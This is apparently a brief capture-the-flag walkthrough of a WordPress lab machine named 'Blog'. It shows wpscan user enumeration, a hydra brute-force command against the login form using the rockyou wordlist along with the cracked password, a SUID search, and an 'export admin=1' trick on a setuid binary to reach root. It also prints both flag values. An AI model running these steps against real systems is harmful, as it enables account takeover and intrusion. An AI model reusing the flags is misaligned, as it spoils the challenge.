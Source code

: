 
# Blog 

# Target IP : 10.10.60.247

# My IP : 10.17.6.109

# PORT 445
just a rabbit hole


# PORT 80 

/robots.txt
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

wordpress 5.0
use wpscan
```bash
wpscan --url http://blog.thm --enumerate u | tee wpscan.log  
```

log=kwheel&pwd=kwheel&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt  10.10.60.247 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1 :F=The password you entered for the username" -V -t 30

[80][http-post-form] host: 10.10.60.247   login: kwheel   password: cutiepie1

```

use metasploit to exploit crop vulnerablity
```bash
find / -perm -u=s -type f 2>/dev/null

/usr/sbin/checker
ltrace /usr/sbin/checker



export admin=1

> user root
cat root.txt
9a0b2b618bef9bfa7ac28c1353d9f318

cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
```
